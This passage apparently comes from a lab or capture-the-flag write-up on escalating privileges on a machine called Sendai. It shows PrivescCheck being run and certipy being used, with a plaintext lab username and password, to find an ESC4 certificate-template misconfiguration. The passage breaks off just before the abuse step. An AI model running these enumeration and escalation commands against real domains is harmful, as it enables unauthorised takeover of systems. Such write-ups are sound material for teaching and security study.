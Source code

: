 ```powershell
. .\PrivescCheck.ps1; Invoke-PrivescCheck -Extended
```
![alt text](../assets/image_sendai/4er.png)

## Privesc ESC4

Now let's do some ADCS enumeration

```bash
certipy find -u 'Clifford.Davey'@'dc.sendai.vl' -p 'RFmoB2WplgE_3p' -dc-ip '10.10.96.234' -vulnerable -stdout -debug

CA Name : sendai-DC-CA
Template Name : SendaiComputer
[!] Vulnerabilities
ESC4 : 'SENDAI.VL\\ca-operators' has dangerous permissions
```
![alt text](../assets/image_sendai/5er.png)

As you can see, Clifford is in ca-operators, so let's abuse :

